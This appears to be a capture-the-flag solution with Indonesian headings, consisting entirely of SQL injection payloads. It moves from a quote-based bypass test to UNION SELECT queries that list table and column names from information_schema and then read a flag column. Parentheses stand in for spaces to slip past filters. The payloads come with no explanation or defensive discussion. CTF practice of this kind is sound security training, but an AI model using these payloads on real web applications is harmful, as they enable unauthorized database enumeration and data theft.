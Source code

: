 ## Test SQLi
```
\'or(1)#
```

## Test Union
```
\'union(select(0),0,0,0,0,0,0)#
```

## Tabel
```
\'union(select(0),0,0,(select(group_concat(table_name))from(information_schema.tables)),0,0,0)#
```

## Kolom
```
\'union(select(0),0,0,(select(group_concat(column_name))from(information_schema.columns)),0,0,0)#
```

## Flag
```
\'union(select(0),0,0,(select(group_concat(fLaGz_15_HERE))from(flag)),0,0,0)#
```
